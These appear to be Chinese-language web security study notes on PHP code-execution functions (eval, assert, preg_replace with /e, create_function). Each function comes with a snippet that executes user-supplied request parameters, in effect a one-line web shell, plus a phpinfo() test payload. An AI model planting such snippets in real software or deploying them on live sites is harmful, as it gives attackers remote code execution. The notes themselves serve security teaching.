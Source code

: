 ##### d. 常用执行函数

###### ①eval()

* 将字符串按照**PHP代码**来执行，该字符串必须是**合法的PHP代码**，且必须以**分号结尾**

* ```php
  <?php
  // ?a=phpinfo();
  @eval($_GET['a']);
  ?>
  ```

  <img src="../../images/8-17-afternoon/eval.png" alt="eval"  />

###### ②assert()

* **与eval()类似**，将字符串当做**PHP代码**来执行

* ```php
  <?php
  // ?b=phpinfo();
  @assert($_GET['b']);
  ?>
  ```

  ![assert](../../images/8-17-afternoon/assert.png)

###### ③preg_replace()

* 执行正则表达式的搜索和替换，可使用**修饰符/e**，使该函数**将replacement参数当做PHP代码**

* ```php
  <?php
  // ?c=phpinfo();
  @preg_replace("/abc/e",$_REQUEST['c'],"abc");
  ?>
  ```

  ![preg_replace](../../images/8-17-afternoon/preg_replace.png)

###### ④create_function()

```php
<?php
// ?d=phpinfo();
$func = create_function("",$_REQUEST['d']);
$func();
?>
```
